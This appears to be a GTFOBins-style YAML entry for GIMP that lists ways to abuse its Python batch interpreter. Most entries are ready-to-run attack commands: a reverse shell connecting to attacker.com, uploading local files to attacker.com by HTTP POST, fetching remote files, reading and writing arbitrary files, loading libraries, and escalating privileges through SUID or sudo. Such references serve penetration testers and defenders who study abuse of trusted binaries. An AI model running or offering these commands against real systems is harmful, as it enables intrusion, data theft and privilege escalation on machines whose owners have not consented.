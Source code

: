 ```yaml
---
description: The binary hangs after executing the Python code and can be terminated pressing ``ctrl-c``.
functions:
  shell:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.system("sh")'
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")'
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
    - code: |
        gimp -idf --batch-interpreter=python-fu-eval -b 'open("file_to_write", "wb").write("DATA")'
  file-read:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'print(open("file_to_read").read())'
  library-load:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid:
    - code: ./gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.execl("/bin/sh", "sh", "-p")'
  sudo:
    - code: sudo gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.system("sh")'
---
```

